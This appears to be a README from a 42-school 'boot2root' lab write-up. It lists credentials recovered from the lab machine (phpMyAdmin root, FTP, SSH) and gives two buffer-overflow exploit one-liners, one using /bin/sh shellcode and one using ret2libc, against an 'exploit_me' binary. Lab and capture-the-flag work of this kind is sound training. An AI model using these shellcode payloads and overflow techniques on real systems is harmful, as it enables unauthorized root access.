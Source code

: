 # boot2root

Search for various means to pass root on the ISO given to you (42 project)

```
user mylittleforum:
lmezard:!q\]Ej?*5K5cy*AJ

mails:
admin@borntosec.net
qudevide@borntosec.net
thor@borntosec.net
wandre@borntosec.net
laurie@borntosec.net
zaz@borntosec.net

phpmyadmin:
root:Fg-'kKXBj87E:aJ$

ftp:
lmezard:G!@M6f4Eatau{sF"

ssh:
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135
zaz:646da671ca01bb5d84dbb5fb2238dc8e
```

To get zaz password:

- Create the png with script and get `SLASH`
- The md5 SLASH to get `646da671ca01bb5d84dbb5fb2238dc8e`

```bash
$ echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
```

To exploit binary in zaz home (shellcode and ret2libc):

```bash
./exploit_me $(python -c 'print("\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 62 + "\xbf\xff\xf6\x50"[::-1])')

./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])')
```
